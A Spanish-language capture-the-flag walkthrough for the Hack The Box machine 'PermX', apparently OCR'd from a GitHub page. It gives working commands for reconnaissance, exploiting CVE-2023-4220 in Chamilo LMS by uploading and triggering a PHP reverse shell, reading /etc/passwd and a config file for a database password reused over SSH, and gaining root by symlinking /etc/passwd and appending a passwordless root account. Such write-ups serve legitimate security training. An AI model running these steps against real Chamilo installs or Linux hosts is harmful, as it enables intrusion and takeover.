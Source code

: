 # Reconocimiento
sudo nmap -sS -sV -A --min-rate 5000 --open -vvv -Pn 10.10.11.23

# Resultado

| port | state | service | reason | version |
|------|-------|---------|--------|---------|
| 22 | open | ssh |  syn-ack | OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0) |
| 80 | open | http |  syn-ack | Apache httpd 2.4.52 |

- Copiamos la ip en la url de nuestro navegador.
- revisamos la web cargada.
- encontramos la url (http://permx.htb/).

# Copiamos la url en el archivo
- cd nano /etc/hosts
- ip 10.10.11.23 http://permx.htb/
- guardamos con ctrl + s
- ctrl + x

# Realizamos un escaneo con
> whatweb -v -a 3 http://permx.htb/ 

# Encontramos

| Resultado |
|-----------|
| Summary   : Apache[2.4.52], |
|  Bootstrap[5.0.0] |
| Email[permx@htb.com] |
| HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)] |
| JQuery[3.4.1] |

# Ataque de directorio con Gobuster

| ataque | estado |
|--------|--------|
| sudo gobuster vhost -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://permx.htb --append-domain | grep -v "Status: 302" | exitoso |

| resultado |
|-----------|
| lms.permx.htb |

# Reconocimiento de la nueva url encontrada con whatweb

|Ataque|
|------|
| whatweb -v -a 3 http://lms.permx.htb/index.php |


|resultados|
|----------|
| Apache |
| Version      : 2.4.52 (from HTTP Server Header) Google Dorks: (3)  
| Website     : http://httpd.apache.org/ |

# CVE

- CVE-2023-4220

- Investigamos en internet la revershell que podriamos usar con este CVE
- Descargamos la shell
- La enviamos al servidor 

> curl -F 'bigUploadFile=@sheel.php' 'http://lms.permx.htb//main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported' 

- Nos colocamos en escucha

| nc |
|----|
| sudo nc -lvnp 9001 |

- Ejecutamos la Revershell

> curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/sheel.php'

- Ingresamos al servidor y importamos una libreria de python para obtener una bash

| importamos bash |
|-----------------|
| python3 -c 'import pty;pty.spawn("/bin/bash")' |


- Buscamos la existencia de otros usuarios

> cat /etc/passwd | grep -i sh$

|resultados|
|----------|
| root:x:0:0:root:/root:/bin/bash|
|mtz:x:1000:1000:mtz:/home/mtz:/bin/bash |

- Realizamos una busqueda por ficheros

> find ./ | grep “configuration.php” 2>dev/null 


- Dentro de la busqueda encontramos la siguiente linea 


> cat ./var/www/chamilo/app/config/configuration.php 


- Esto nos da resultados de la configuracion de la base de datos
- 
> Database connection settings.
> $_configuration['db_host'] = 'localhost';
> $_configuration['db_port'] = '3306';
> $_configuration['main_database'] = 'chamilo';
> $_configuration['db_user'] = 'chamilo';
> $_configuration['db_password'] = '03F6lY3uXAP2bkW8';
> Enable access to database management for platform admins.
> $_configuration['db_manager_enabled'] = false;

- Nos conectamos por ssh con ese usuario de la db

| ruta | passwd |
| ssh mtz@permx.htb   | 03F6lY3uXAP2bkW8 |


> flag 1 encontrada dentro de user.txt

# Proceso de escalada de privilegios

- Ejecutamos  
> sudo -l 
- Para saber que permisos tenemos para ejecutar como este usuario
- Vemos un script llamado
> acl.sh 
- Este esript nos permite modificar los permisos dentro del path de /home/mtz
- con el comando
> ln -s /etc/passwd /home/mtz/test 
- creamos un link entre 
> /etc/passwd 
- y 
> /home/mtz/test 
- lo que nos va a permitir tener una comunicacion directa con passwd a traves de 
> /home/mtz/test 
- para que tengamos los permisos tenemos que ejecutar el siguiente comando
> sudo /opt/acl.sh mtz rw /home/mtz/test 
- este comando lo que hace es que a traves de 
> sudo /opt/acl.sh  
- le asigna a 
>  mtz 
- los permisos de escritura y lectura
> rw 
- al archivo que asignamos con el link  
> /home/mtz/test 
- anterior para poder tener acceso y con 
> echo "root3::0:0:root3:/root:/bin/bash" >> ./test
- creamos un root llamado root3 y les damos los mismos permisos de root ya con esto solo ejecutamos 
> su root3 
- y tendremos los privilegios de root 
- realizamos un cd..
- luego cd ..
- luego cd root
- y encontramos la flag dentro de root.txt
